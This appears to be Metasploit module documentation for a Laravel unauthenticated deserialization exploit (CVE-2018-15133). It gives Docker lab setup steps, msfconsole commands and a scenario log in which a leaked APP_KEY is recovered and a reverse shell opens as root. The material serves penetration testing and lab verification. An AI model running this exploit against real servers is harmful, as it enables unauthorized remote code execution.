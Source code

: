 ## Vulnerable Application

[Laravel](https://laravel.com/) is an actively-maintained PHP Framework web development suite

This module exploits an unauthenticated vulnerability that allows for PHP object deserialization and command execution

The vulnerability was discovered by [Ståle Pettersen](https://github.com/kozmic/laravel-poc-CVE-2018-15133)
Also uses https://nvd.nist.gov/vuln/detail/CVE-2017-16894 to check for a leaked key.
Finally checks for another leaked key method which may not be known and perhaps 0day?


### Setting up Laravel on Debian

- `git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133`
- Edit Dockerfile and change `sed -i -e 's/5.7.\*/5.6.29/g'` to `sed -i -e 's/5.8.\*/5.6.29/g'` (needs to be 5.8 as 5.7 is removed from mirror)
- `docker build -t laravel-poc-cve-2018-15133 .`
- `docker run -d -p 8000:8000 laravel-poc-cve-2018-15133`

## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/laravel_token_unserialize_exec`
- `set RHOST 1.2.3.4`
- `set RPORT 8000` (for Docker image)
- `set APP_KEY base64_string` (optional)
- `set VERBOSE true` (optional)
- `check`
- `exploit`

## Scenarios

msf5 > use exploit/unix/http/laravel_token_unserialize_exec 
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 1.2.3.4
RHOSTS => 1.2.3.4
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RPORT 8000
RPORT => 8000
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set VERBOSE true
VERBOSE => true
msf5 exploit(unix/http/laravel_token_unserialize_exec) > check

[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[+] 1.2.3.4:8000 - The target is vulnerable.
msf5 exploit(unix/http/laravel_token_unserialize_exec) > exploit 

[-] Handler failed to bind to 1.2.3.1:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[*] Command shell session 1 opened (1.2.3.1:4444 -> 1.2.3.4:48772) at 2019-07-06 12:41:31 +1000
id

uid=0(root) gid=0(root) groups=0(root)

